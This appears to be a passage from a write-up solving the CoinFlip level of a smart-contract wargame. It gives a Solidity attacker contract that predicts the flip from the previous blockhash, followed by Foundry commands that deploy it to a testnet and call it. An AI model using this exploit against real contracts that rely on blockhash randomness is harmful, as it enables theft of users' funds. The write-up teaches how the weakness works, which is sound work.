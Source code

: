 ```solidity

  constructor(address instanceAdrress) {
    coinFlipTarget = CoinFlip(instanceAdrress);
    consecutiveWins = 0;
  }

  function attack() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    if (lastHash != blockValue) {
      lastHash = blockValue;
      uint256 coinFlip = blockValue / FACTOR;
      bool side = coinFlip == 1 ? true : false;
      coinFlipTarget.flip(side);
      consecutiveWins++;
    }
  }
}
```


Let’s deploy this contract :


```solidity
forge create --rpc-url $SEPOLIA_RPC_URL --private-key $PRIVATE_KEY src/03.sol:CoinFlipAttack --constructor-args $INSTANCE_03
```


Now we can call our `attack()` function with cast send:


```solidity
cast send $ATTACKER_03 --rpc-url $SEPOLIA_RPC_URL --private-key $PRIVATE_KEY "attack()"
```


We can also look up the current consecutive wins on the attacked contract using the following cast command:


```solidity
cast call $INSTANCE_03 --rpc-url $SEPOLIA_RPC_URL "consecutiveWins()"
```

